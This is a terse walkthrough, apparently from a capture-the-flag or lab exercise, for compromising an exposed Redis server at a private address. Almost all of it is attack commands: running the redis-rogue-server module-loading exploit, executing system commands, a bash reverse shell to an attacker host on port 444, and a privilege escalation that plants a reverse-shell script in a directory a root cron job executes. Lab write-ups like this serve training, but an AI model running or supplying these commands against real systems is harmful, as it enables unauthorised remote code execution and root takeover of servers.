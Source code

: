 redis vuln:Manual exploit

```zsh
apt get install redis-cli
```

```zsh
redis-cli -h 172.31.1.9
```
https://github.com/n0b0dyCN/redis-rogue-server


```zsh
python3 redis-rogue-server.py --rhost 172.31.1.9 --rport 6379 --lhost 10.10.0.40 --lport 6379
```
Check after it runs , go to the redis-cli: and type - ```system.exec "id"``` 

In the redis server, Interacitve shell:
bash -c 'bash -i >& /dev/tcp/10.10.0.40/444 0>&1'


```
For  privesc: 
run pspy , you will see a script running /var/log/redis/logmanager.sh, check it out. It just executes it and redirect its stderr to /dev/null the log but is running as root. 

Place this script in /var/log/redis/logs:

#!/bin/bash
bash -i >& /dev/tcp/10.10.0.40/444 0>&1

chmod 777 <filename>.zsh
```
Start the listener and will get the root shell